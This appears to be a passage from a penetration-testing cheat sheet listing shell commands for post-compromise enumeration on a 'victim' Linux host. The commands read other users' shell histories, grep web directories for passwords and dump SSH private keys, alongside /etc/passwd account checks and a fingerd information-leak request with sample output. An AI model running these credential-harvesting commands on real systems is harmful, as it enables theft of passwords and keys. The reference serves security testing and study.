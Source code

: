 ```sh
# Process lists

user@victim $ ps -efw

# Usernames entered into login prompt by mistake

user@victim $ last -f /var/log/bmtp

# Usernames entered into command line arguments

user@victim $ cat /home/*/.*history

# Passwords saved in web files

user@victim $ grep -iR password /var/www

# SSH keys

user@victim $ cat /home/*/.ssh/id*
```

Enumerate password and account information with ```chage```

```sh
user@victim $ chage -l
```

## Unusual Accounts

Look in /etc/passwd for new accounts in a sorted list:

```sh
user@RoseSecurity $ sort -nk3 -t: /etc/passwd | less
```

Look for users with a UID of 0:

```sh
user@RoseSecurity $ grep :0: /etc/passwd
```

## Enumerating with Finger

Various information leak vulnerabilities exist in fingerd implementations. A popular attack involves issuing a '1 2 3 4 5 6 7 8 9 0' request against a Solaris host running fingerd.

```sh
# finger '1 2 3 4 5 6 7 8 9 0'@192.168.0.10

[192.168.0.10]

Login       Name               TTY         Idle    When    Where

root     Super-User            console      <Jun  3 17:22> :0 

admin    Super-User            console      <Jun  3 17:22> :0

daemon          ???                         < .  .  .  . >

bin             ???                         < .  .  .  . >

sys             ???                         < .  .  .  . >

adm      Admin                              < .  .  .  . >

lp       Line Printer Admin                 < .  .  .  . >

```
